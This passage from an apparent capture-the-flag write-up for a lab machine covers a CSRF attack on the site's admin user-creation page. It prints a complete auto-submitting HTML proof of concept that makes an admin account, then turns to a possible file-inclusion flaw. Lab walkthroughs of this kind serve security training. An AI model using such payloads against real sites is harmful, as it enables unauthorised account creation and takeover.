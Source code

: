 ```
            $error = "Failed to create user. Please try again.";
        }
    }
}
?>
```

To generate CSRF POC we can use **[Burpsuite Pro](https://portswigger.net/burp/documentation/desktop/tools/engagement-tools/generate-csrf-poc)** or **[CSRF Shark](https://csrfshark.github.io/app/)** 

<img width="750" height="643" alt="image" src="https://github.com/user-attachments/assets/de193fbc-fbc0-425e-82a2-042388b533df" />

<img width="1882" height="633" alt="image" src="https://github.com/user-attachments/assets/5d65a38e-c68d-45ae-b05c-22c1be5408f5" />

Again, we need **valid** ``csrf_token`` from the source code and, exchange the variables and value **required** to create new user from ``createuser.php``.

### Authenticated as Admin

Here's the final ``.html`` file:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form method="POST" action="http://portal.guardian.htb/admin/createuser.php" id="Form">
      <input type="hidden" name="csrf_token" value="f96df9bfae536e1764e0ada87af8d3a8">
      <input type="hidden" name="username" value="kryzi">
          <input type="hidden" name="password" value="Password123!">
          <input type="hidden" name="full_name" value="kryzi">
          <input type="hidden" name="email" value="kryzi@guardian.htb">
          <input type="hidden" name="dob" value="2025-10-10">
          <input type="hidden" name="address" value="Admin Address">
          <input type="hidden" name="user_role" value="admin">
          <button type="submit">Create Admin Account</button>
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<img width="1713" height="844" alt="image" src="https://github.com/user-attachments/assets/955118d6-440e-4512-b333-da09d5848505" />

<img width="1718" height="846" alt="image" src="https://github.com/user-attachments/assets/3b313c55-ec8e-409f-9d1b-28e9476d15e3" />

## LFI

After reviewing admin panel. We found, possible LFI vuln. 

